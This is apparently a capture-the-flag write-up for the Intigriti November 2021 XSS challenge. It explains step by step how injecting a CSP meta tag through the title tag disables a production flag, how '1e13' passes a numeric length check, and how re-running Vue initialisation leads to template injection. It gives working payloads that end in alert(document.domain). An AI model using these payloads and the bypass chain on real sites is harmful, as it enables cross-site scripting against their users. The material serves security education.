


## Write-up

Taking a look at the source code, we see that there are a total of 4 `<script>` tags. Initial thoughts is that it is perculiar that the code should be split in this manner. But we will just keep that in mind first.

We see that these 2 `<script>` in the page would execute in order to setup the page content:

```html
<script nonce="794c3ef46543dc375d5986d215882">
    var delimiters = ['v-{{', '}}'];    // [1]
    addJS('./vuejs.php', initVUE);      // [2]
</script>

<script nonce="794c3ef46543dc375d5986d215882">
    function addJS(src, cb){            // [3]
        let s = document.createElement('script');
        s.src = src;                    
        s.onload = cb;                  
        let sf = document.getElementsByTagName('script')[0];
            sf.parentNode.insertBefore(s, sf);
    }
    
    function initVUE(){                 // [4]
        if (!window.Vue){
            setTimeout(initVUE, 100);
        }
        new Vue({
            el: '#app',
            delimiters: window.delimiters, // [5]
            data: {
                "owasp":[
                    {"target": "1", "title":"A01..."},
                    // ...
                    },
                    ].filter(e=>{
                        return (e.title + ' - ' + e.description)
                            .includes(new URL(location).searchParams.get('s')|| ' ');
                    }),                                           // [6]
                "search": new URL(location).searchParams.get('s') // [7]
            }
        })
    }
</script>

// ...

<p>You searched for v-{{search}}</p>    // [8]
<ul class="tilesWrap">
  <li v-for="item in owasp">
    <h2>v-{{item.target}}</h2>
    <h3>v-{{item.title}}</h3>
    <p>v-{{item.description}}</p>
    <p>
      <a v-bind:href="'https://blog.intigriti.com/2021/09/10/owasp-top-10/#'+item.target" target="blog" class="readMore">Read more</a>
    </p>
  </li>
</ul>
```

In [1], a `delimiters` variable is set to `['v-{{', '}}']`. In [2], `addJS()` function is invoked with 2 arguments. The first is an existing file `vuejs.php` on the application, and the second is a function name `initVUE`. At [3], we see that the `addJS()` function creates a new `<script>` tag, sets the `src` to be the first parameter and an `onload` event to be the second parameter. In this case, the output would be `<script src="./vuejs.php" onload=initVUE>`. This newly created `<script>` tag is then prepended before the first `<script>` in the page.

Then, once the `<script>` is inserted, [4] would trigger which will initialize a new `Vue()` [VueJS object](https://vuejs.org/v2/guide/instance.html). We see that the `delimiters` defined in [1] is used as the delimiter value in [5]. Finally, the values supplied via the `s` HTTP GET parameter would be used in [6] and [7] to determine which strings would be used as part of the template rendering before displaying the output on the browser at [8].

Now that we roughly know how the application uses our input to render the page, we can take a look at the other 2 `<script>`. They are correlated and we might have to somehow make `window.isProd` not equal to `true` if we were to execute the 2nd script:

```html
<script nonce="794c3ef46543dc375d5986d215882">
    var isProd = true;
</script>

// ...

<script nonce="794c3ef46543dc375d5986d215882">
    if (!window.isProd){
        let version = new URL(location).searchParams.get('version') || '';
        version = version.slice(0,12);
        let vueDevtools = new URL(location).searchParams.get('vueDevtools') || '';
        vueDevtools = vueDevtools.replace(/[^0-9%a-z/.]/gi,'').replace(/^\/\/+/,'');

        if (version === 999999999999){
            setTimeout(window.legacyLogger, 1000);
        } else if (version > 1000000000000){
            addJS(vueDevtools, window.initVUE);
        } else{
            console.log(performance)
        }
    }
</script>
```

---

Now that we have examined the code, let's begin testing how exactly our input will be used.

Notice that our input in the `s` HTTP parameter is reflected in the `<title>` and `<p>` tags. We already know about the `<p>` output from tracing the client-side code above, but the reflected output from `<title>` is new to us! Attempting to set `s=</title>foo<!--` revealed that the `<title>` tag is susceptible to HTML injection.



Before we get too excited, the application has some pretty strict [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) in place as seen from the HTTP response headers:

```http
content-security-policy: base-uri 'self'; default-src 'self'; script-src 'unsafe-eval' 'nonce-48ba60ef1bfce13c674528fc4bd329f2' 'strict-dynamic'; object-src 'none'; style-src 'sha256-dpZAgKnDDhzFfwKbmWwkl1IEwmNIKxUv+uw+QP89W3Q='
```

For example, this CSP prevents us from injecting a `<base>` tag to change the document's base URL to an arbitrary one, nor are we allowed to include `<script>` originating from any host (due to `strict-dynamic`). Many other bypasses are also prevented. Essentially, we can only make do with the existing `<script>` in this page.

> 💡: You can have a beautified look of CSP's by using this [online tool](https://csp-evaluator.withgoogle.com/).

Since we are in the `<head>` tag, perhaps we could try to inject additional CSP policies? We cannot make existing CSP more slack in this way, but we can make it "stricter". Taking a look at this PortSwigger [blog post](https://portswigger.net/research/bypassing-csp-with-policy-injection) by Gareth Heyes, we learn that if the `script-src-elem` directive exists, it will "override" any existing `script-src` in a limited way. We still cannot create arbitrary `<script>` tags however, but we can pick and choose which existing `<script>` in the current page to run.

In order to choose which existing `<script>` we want to run, we have to first get their hashes. To do so, set the CSP policy to: `script-src-elem 'none'`. This will give us the following errors in the console:

```js
Refused to execute inline script because it violates the following Content Security Policy directive: "script-src-elem 'none'". Either the 'unsafe-inline' keyword, a hash ('sha256-gxgcYEEz54Y271QQ3G8WXvFlfNmi0G2h8s94TRjCCIE='), or a nonce ('nonce-...') is required to enable inline execution.

index.php:7 Refused to execute inline script because it violates the following Content Security Policy directive: "script-src-elem 'none'". Either the 'unsafe-inline' keyword, a hash ('sha256-whKF34SmFOTPK4jfYDy03Ea8zOwJvqmz+oz+CtD7RE4='), or a nonce ('nonce-...') is required to enable inline execution.

index.php:44 Refused to execute inline script because it violates the following Content Security Policy directive: "script-src-elem 'none'". Either the 'unsafe-inline' keyword, a hash ('sha256-DyAMQdY7I0oql5LiUzorG/UTv8qq5n3GbrvKmdtudyM='), or a nonce ('nonce-...') is required to enable inline execution.

index.php:48 Refused to execute inline script because it violates the following Content Security Policy directive: "script-src-elem 'none'". Either the 'unsafe-inline' keyword, a hash ('sha256-Tz/iYFTnNe0de6izIdG+o6Xitl18uZfQWapSbxHE6Ic='), or a nonce ('nonce-...') is required to enable inline execution.
```

Now, we will add all of the `<script>` except the one that sets the `isProd` variable to `true`. Just like that, we have overcome the first hurdle. The hashes (URL-encoded) to add to our CSP are:

```
sha256-Tz/iYFTnNe0de6izIdG+o6Xitl18uZfQWapSbxHE6Ic=
sha256-whKF34SmFOTPK4jfYDy03Ea8zOwJvqmz+oz+CtD7RE4=
sha256-DyAMQdY7I0oql5LiUzorG/UTv8qq5n3GbrvKmdtudyM=
```

So our current payload now looks like:

```
?s=</title><meta http-equiv="Content-Security-Policy" content="script-src-elem 'sha256-Tz%2FiYFTnNe0de6izIdG%2Bo6Xitl18uZfQWapSbxHE6Ic%3D' 'sha256-whKF34SmFOTPK4jfYDy03Ea8zOwJvqmz%2Boz%2BCtD7RE4%3D' 'sha256-DyAMQdY7I0oql5LiUzorG%2FUTv8qq5n3GbrvKmdtudyM%3D'">
```

> Note that we cannot inject additional `<script>` tags as it will still violate `script-src` (even if we add its hash into our injected `script-src-elem` CSP directive)

With the new payload, we are now presented with new errors:

```js
Refused to load the script 'https://challenge-1121.intigriti.io/challenge/vuejs.php' because it violates the following Content Security Policy directive: "script-src-elem 'sha256-Tz/iYFTnNe0de6izIdG+o6Xitl18uZfQWapSbxHE6Ic=' 'sha256-whKF34SmFOTPK4jfYDy03Ea8zOwJvqmz+oz+CtD7RE4=' 'sha256-DyAMQdY7I0oql5LiUzorG/UTv8qq5n3GbrvKmdtudyM='".
```

So we just have to whitelist the `*.intigriti.io` domain in our injected CSP. Then we are greeted with a similar error but for the `unpkg.com` domain. This is because the `vuejs.php` file redirects to `unpkg.com/vue` which contains the vue JS library.

```js
Refused to load the script 'https://unpkg.com/vue' because it violates the following Content Security Policy directive: "script-src-elem *.intigriti.io 'sha256-Tz/iYFTnNe0de6izIdG+o6Xitl18uZfQWapSbxHE6Ic=' 'sha256-whKF34SmFOTPK4jfYDy03Ea8zOwJvqmz+oz+CtD7RE4=' 'sha256-DyAMQdY7I0oql5LiUzorG/UTv8qq5n3GbrvKmdtudyM='".
```

Add `unpkg.com` into our whitelist as well. Now our injected CSP looks like:

```
?s=</title><meta http-equiv="Content-Security-Policy" content="script-src-elem *.intigriti.io unpkg.com 'sha256-Tz%2FiYFTnNe0de6izIdG%2Bo6Xitl18uZfQWapSbxHE6Ic%3D' 'sha256-whKF34SmFOTPK4jfYDy03Ea8zOwJvqmz%2Boz%2BCtD7RE4%3D' 'sha256-DyAMQdY7I0oql5LiUzorG%2FUTv8qq5n3GbrvKmdtudyM%3D'">
```

We are now able to enter the inner `else` loop of the following script, since we have made `isProd` to be undefined:

```html
<script nonce="2960f5da344fa2446c95e40b1596305a">
    if (!window.isProd){
        let version = new URL(location).searchParams.get('version') || '';  //[1]
        version = version.slice(0,12);  // [2]
        let vueDevtools = new URL(location).searchParams.get('vueDevtools') || '';  // [3]
        vueDevtools = vueDevtools.replace(/[^0-9%a-z/.]/gi,'').replace(/^\/\/+/,''); // [4]

        if (version === 999999999999){  // [5]
            setTimeout(window.legacyLogger, 1000);
        } else if (version > 1000000000000){  // [6]
            addJS(vueDevtools, window.initVUE); // [7]
        } else{
            console.log(performance)
        }
    }
</script>
```

At [1] and [2], the `version` variable is defined to be the value from the `version` HTTP GET parameter. Only the first 12 characters are kept.

At [5], we see that if `version` equals to `999999999999` (12 digits), an undefined function `legacyLogger()` is invoked. So perhaps this is not the route to go. At [6], we see that the `version` should be greater than `1000000000000` (13 digits), but our input is limited to 12 characters. We can subvert this check by specifying our input to be an exponential number (e.g. `1e13`), as `"1e13" > 1000000000000` results in `true`. More information on how JavaScript compares strings and integers can be found [here](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Operators/Greater_than).

Let's update our paylod once again. It now looks like:

```
?s=</title><meta http-equiv="Content-Security-Policy" content="script-src-elem 'sha256-Tz%2FiYFTnNe0de6izIdG%2Bo6Xitl18uZfQWapSbxHE6Ic%3D' 'sha256-whKF34SmFOTPK4jfYDy03Ea8zOwJvqmz%2Boz%2BCtD7RE4%3D' 'sha256-DyAMQdY7I0oql5LiUzorG%2FUTv8qq5n3GbrvKmdtudyM%3D'">&version=1e13
```

Then, at [3] and [4], the `vueDevtools` variable is defined to be the value from the `vueDevtools` HTTP GET parameter. The input can only contain whitelisted characters such as alphanumerical and `%/.` only. It also cannot begin with `//` (followed by any number of consecutive `/`). This prevents the use of [protocol-relative URLs](https://developer.mozilla.org/en-US/docs/Learn/Common_questions/What_is_a_URL#absolute_urls_vs_relative_urls).

At [7], a call to `addJS()` is made, using our input at `vueDevtools` as the `<script>` source to be inserted into the current page. As a result of the input sanitization, we are limited to just the resources within this domain.

If we try to set `index.php` as the source file, we will get an error as it is not in javascript syntax. So we can only use the other file `vuejs.php`. This will land us back to:

```js
addJS("vuejs.php", window.initVUE);
```

Remember that in one of the existing scripts, the following code was ran before this:
```js
var delimiters = ['v-{{', '}}'];
addJS("./vuejs.php", initVUE);
```

So this means that we will actually execute `initVUE()` twice. What are the implications of this? Here's a reminder of how `initVUE()` looks like:

```js
function initVUE(){
    if (!window.Vue){
        setTimeout(initVUE, 100);
    }
    new Vue({
        el: '#app',
        delimiters: window.delimiters,
        data: {
            "owasp":[
                {"target": "1", "title":"A01..."},
                // ...
                },
                ].filter(e=>{
                    return (e.title + ' - ' + e.description)
                        .includes(new URL(location).searchParams.get('s')|| ' ');
                }),
            "search": new URL(location).searchParams.get('s')
        }
    })
}
```

During the first iteration of `initVUE()` our input in the GET parameter `s` will be sanitized, converting `v-{{}}` to `%v%{{}}`. `initVUE()` then uses this sanitized value as part of its templating process. This prevents us from directly injecting any vue XSS payloads.

However, during the **second** iteration of `initVUE()` called by us, the GET parameter `s` will be retrieved from the URL and used without sanitization instead!

This means that we can simply inject `v-{{some-vue-xss-payload}}` and when `initVUE()` is invoked a second time, the XSS will be triggered. We can use the Vue XSS payload from [Mario Heiderich](https://book.hacktricks.xyz/pentesting-web/client-side-template-injection-csti#v2).

This leaves us with our final payload:

```
?s=v-{{constructor.constructor('alert(document.domain)'()}}</title><meta http-equiv="Content-Security-Policy" content="script-src-elem 'sha256-Tz%2FiYFTnNe0de6izIdG%2Bo6Xitl18uZfQWapSbxHE6Ic%3D' 'sha256-whKF34SmFOTPK4jfYDy03Ea8zOwJvqmz%2Boz%2BCtD7RE4%3D' 'sha256-DyAMQdY7I0oql5LiUzorG%2FUTv8qq5n3GbrvKmdtudyM%3D'">&version=1e13&vueDevtools=vuejs.php
```

[Direct link](https://challenge-1121.intigriti.io/challenge/index.php?s=v-{{constructor.constructor(%27alert(document.domain)%27)()}}%3C/title%3E%3Cmeta+http-equiv=%22Content-Security-Policy%22+content=%22script-src-elem+*.intigriti.io+unpkg.com+%27sha256-Tz%2FiYFTnNe0de6izIdG%2Bo6Xitl18uZfQWapSbxHE6Ic%3D%27+%27sha256-whKF34SmFOTPK4jfYDy03Ea8zOwJvqmz%2Boz%2BCtD7RE4%3D%27+%27sha256-DyAMQdY7I0oql5LiUzorG%2FUTv8qq5n3GbrvKmdtudyM%3D%27%22%3E&version=1e13&vueDevtools=vuejs.php)



